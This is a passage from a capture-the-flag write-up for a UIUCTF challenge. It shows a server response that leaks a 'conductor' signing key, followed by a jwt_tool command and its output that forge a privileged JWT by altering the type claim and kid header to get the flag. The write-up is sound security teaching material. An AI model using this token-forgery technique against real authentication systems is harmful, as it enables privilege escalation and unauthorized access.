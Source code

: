 ```json
{
    "message": "Sorry passenger, only conductors are allowed right now. Please sign your own tickets. \nhashed \u00f4\u008c\u00f7u\u009e\u00deIB\u0090\u0005\u0084\u009fB\u00e7\u00d9+ secret: conductor_key_873affdf8cc36a592ec790fc62973d55f4bf43b321bf1ccc0514063370356d5cddb4363b4786fd072d36a25e0ab60a78b8df01bd396c7a05cccbbb3733ae3f8e\nhashed _\bR\u00f2\u001es\u00dcx\u00c9\u00c4\u0002\u00c5\u00b4\u0012\\\u00e4 secret: a_boring_passenger_signing_key_?",
    "success": false
}
```

{% endcode %}

### JWT Forgery

Now we need to forge a brand new JWT for the `conductor` using the associated key: `conductor_key_873affdf8cc36a592ec790fc62973d55f4bf43b321bf1ccc0514063370356d5cddb4363b4786fd072d36a25e0ab60a78b8df01bd396c7a05cccbbb3733ae3f8e`

{% code overflow="wrap" %}

```bash
jwt_tool eyJhbGciOiJIUzI1NiIsImtpZCI6InBhc3Nlbmdlcl9rZXkiLCJ0eXAiOiJKV1QifQ.eyJ0eXBlIjoicGFzc2VuZ2VyIn0.EqwTzKXS85U_CbNznSxBz8qA1mDZOs1JomTXSbsw0Zs -S hs256 -p conductor_key_873affdf8cc36a592ec790fc62973d55f4bf43b321bf1ccc0514063370356d5cddb4363b4786fd072d36a25e0ab60a78b8df01bd396c7a05cccbbb3733ae3f8e -I -pc type -pv conductor -hc kid -hv conductor_key

jwttool_d7c1ddf109460134a3b2f811d55a255e - Tampered token - HMAC Signing:
[+] eyJhbGciOiJIUzI1NiIsImtpZCI6ImNvbmR1Y3Rvcl9rZXkiLCJ0eXAiOiJKV1QifQ.eyJ0eXBlIjoiY29uZHVjdG9yIn0.9YEcZgwQH46F4wckPyovNOwao49zdlEPoQ9HdiXimK4
```

{% endcode %}

Finally, we submit the request and receive the flag.

![](./images/2.png)

Flag: `uiuctf{sigpwny_does_not_condone_turnstile_hopping!}`
